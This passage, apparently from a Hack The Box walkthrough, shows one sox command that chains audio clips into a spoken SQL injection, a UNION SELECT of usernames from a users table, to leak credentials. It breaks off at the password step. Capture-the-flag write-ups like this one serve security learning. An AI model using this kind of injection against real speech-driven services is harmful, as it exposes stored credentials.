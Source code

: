 #### Information Leakage - Credentials

Now for the big one. By the way, I have to guess the table name, which is the only down side of this otherwise excellent box.

```
# sox single_quote.wav space.wav union.wav space.wav select.wav space.wav username.wav from.wav users.wav space.wav sql_comment.wav sqli.wav
```

<a class="image-popup">
![31a94bfd.png](/assets/images/posts/ai-htb-walkthrough/31a94bfd.png)
</a>

And now for the password.

<a class="image-popup">